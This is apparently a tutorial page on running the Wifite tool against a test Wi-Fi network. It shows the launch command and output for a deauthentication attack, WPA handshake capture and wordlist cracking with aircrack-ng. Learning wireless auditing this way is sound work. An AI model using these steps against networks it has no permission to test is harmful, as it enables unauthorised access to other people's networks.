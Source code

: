 # Wifite

Wifite is a really neat tool for those who want faster pawning without
the need of running command one by one. Though there are some bugs that
might happen if you didn't have dependencies for it.

Outside of Kali linux, you might want to add other programs like
`wireshark`,`hxctools`,`cowpatty`,`aircrack-ng` for this script to
run properly.

Since this is a script, you might want to use this in Kali instead
in your normal Linux daily driver. To use Wifite you have to type
` sudo ./Wifite.py`, remember to use `sudo` since you need root
privilege to run this script, it's because some dependencies want
root user privilege to change your wifi to monitor mode.

This command will execute wifite to `anom` ESSID.

```
$ sudo ./Wifite.py -e anom
```

## Results

After you run wifite, you'll get result that will be broken down here.

Banner and option are mentioned here, since I use `-e` as an option, it'll
automatically use `anom` as target ESSID.

```
   .               .    
 .´  ·  .     .  ·  `.  wifite 2.2.5
 :  :  :  (¯)  :  :  :  automated wireless auditor
 `.  ·  ` /¯\ ´  ·  .´  https://github.com/derv82/wifite2
   `     /¯¯¯\     ´    

 [+] option: targeting ESSID anom
 [!] Conflicting processes: #####
 [!] If you have problems: kill -9 PID or re-run wifite with --kill)
```

As you might see above, there might be some conflicting PID that are running
in the background, you might need to specify `--kill` to run this script
again, otherwise, you can just follow through.

After changing to monitor mode, it'll then start using deauth attack to
get wpa handshake. Manually, you might be using `airodump-ng` in conjunction
with `aireplay-ng`. It'll then save your handshake information inside
`hs/handshake_anom_MA-C0-AD-DR-ES-S0_2020-12-03T10-58-09.cap`.

```
 [+] Using wlp1s0mon already in monitor mode

 [+] Scanning. Found 0 target(s), 0 client(s). Ctrl+C when ready
 [+] found target MA:C0:AD:DR:ES:S0 (anom)

 [+] (1/1) Starting attacks against MA:C0:AD:DR:ES:S0 (anom)

 [+] anom (67db) WPA Handshake capture: Discovered new client: MA:C0:AD:DR:ES:S0
 [+] anom (0db) WPA Handshake capture: Discovered new client: MA:C0:AD:DR:ES:S0
 [+] anom (76db) WPA Handshake capture: Captured handshake
 [+] saving copy of handshake to hs/handshake_anom_MA-C0-AD-DR-ES-S0_2020-12-03T10-58-09.cap saved
```

`airodump-ng` and `aireplay-ng` are used for capturing handshake and
saving that handshake into a file, after this, it'll then start
using `tshark`, `pyrit`, `cowpatty`, `aircrack` to then check if
the handshake captured are a valid handshake.

```
 [+] analysis of captured handshake file:
 [+]   tshark: .cap file contains a valid handshake for MA:C0:AD:DR:ES:S0
 [!]    pyrit: .cap file does not contain a valid handshake
 [!] cowpatty: .cap file does not contain a valid handshake
 [!] aircrack: .cap file does not contain a valid handshake
```

After cross-checking all handshakes contained in the file, it'll start
aircrack-ng to do password cracking, it'll take some time if your
password is good enough. Here I will use a really complicated password
`abcdefgh` a really strong and complicated password (please don't use
this kind of password, since it'll be cracked in no seconds.).

```
 [+] Cracking WPA Handshake: Running aircrack-ng with wordlist-top4800-probable.txt wordlist
 [+] Cracking WPA Handshake: 95.17% ETA: 0s @ 2588.2kps (current key: scofield)
 [+] Cracked WPA Handshake PSK: abcdefgh
```

*Jokes* aside, the result then will be generated in formats below.

```
 [+]   Access Point Name: anom
 [+]  Access Point BSSID: MA:C0:AD:DR:ES:S0
 [+]          Encryption: WPA
 [+]      Handshake File: hs/handshake_anom_MA-C0-AD-DR-ES-S0_2020-12-03T10-58-09.cap
 [+]      PSK (password): abcdefgh
 [+] saved crack result to cracked.txt (2 total)
 [+] Finished attacking 1 target(s), exiting
 ```
